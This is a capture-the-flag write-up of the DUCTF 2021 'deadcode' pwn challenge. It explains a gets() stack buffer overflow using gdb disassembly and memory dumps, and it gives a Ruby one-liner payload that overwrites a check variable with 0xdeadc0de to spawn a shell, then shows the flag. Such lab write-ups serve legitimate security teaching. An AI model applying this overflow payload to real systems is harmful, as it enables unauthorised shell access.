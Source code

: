 ## Intro
**deadcode** was a pwn challenge at DUCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that besides NX no other stack mitigations are present. Following the `ltrace` I learned the relatively simple flow of the program and found a
potential buffer overflow vulnerability because the insecure `gets` functions is used to capture user input. I loaded the program into `gdb` and disassembled
the `main` function, which is the only one as `info functions` showed.

```
...
0x00000000004011c7 <+50>:   lea    rax,[rbp-0x20]
0x00000000004011cb <+54>:   mov    rdi,rax
0x00000000004011ce <+57>:   mov    eax,0x0
0x00000000004011d3 <+62>:   call   0x401060 <gets@plt>
0x00000000004011d8 <+67>:   mov    eax,0xdeadc0de
0x00000000004011dd <+72>:   cmp    QWORD PTR [rbp-0x8],rax
0x00000000004011e1 <+76>:   jne    0x401200 <main+107>
...
0x00000000004011ef <+90>:   lea    rdi,[rip+0xed5]        # 0x4020cb  "/bin/sh"
0x00000000004011f6 <+97>:   mov    eax,0x0
0x00000000004011fb <+102>:  call   0x401050 <system@plt>
...
```
We can see here that whatever resides at `rbp-0x8` is compared to `0xdeadc0de` and if equals, `system("/bin/sh")` is executed. So the goal is to overflow
the buffer at `rbp-0x20` and write `0xdeadc0de` to `rbp-0x8` - which initially is set to `0` - to spawn us a shell. Let's set a breakpoint right before the compare and run the program
with `AAAAAAAA` as input.  

```
(gdb) r
...
Breakpoint 1, 0x00000000004011d8 in main ()
(gdb) x/8x $rbp-0x20
0x7fffffffdec0:	0x41414141	0x41414141	0x00401000	0x00000000
0x7fffffffded0:	0xffffdfd0	0x00007fff	0x00000000	0x00000000
(gdb) p $rbp-0x8
$3 = (void *) 0x7fffffffded8
```

So we have to overwrite the contents of address `0x7fffffffded8` (thats's where `rbp-0x8` points to). The `AAAAAAAA`'s we typed in were sent straight to the buffer at
`0x7fffffffdec0` (that's where `rbp-0x20` points to) as we can see by the eight `0x41`'s (ASCII value for 'A'). From here we learn we have to fill the buffer
with 24 bytes and then get to write `0xdeadc0de` to our target address.  

## Solution
Let's pull off a quick ruby exploit for proof of concept.

```
(gdb) r <<< $(ruby -e 'print "A"*24 + "\xde\xc0\xad\xde"')
...
Breakpoint 1, 0x00000000004011d8 in main ()
(gdb) x/8x $rbp-0x20
0x7fffffffdec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffded0:	0x41414141	0x41414141	0xdeadc0de	0x00000000
(gdb) x/x $rbp-0x8
0x7fffffffded8:	0xdeadc0de
(gdb) c
Continuing.


Maybe this code isn't so dead...
```

... and we've successfully overflowed the buffer satisfying the compare to get our shell. From here we can just execute `cat flag.txt`
to get the flag.

See [exploit](./exploit.py) for a python implementation of the exploit.  

> DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}

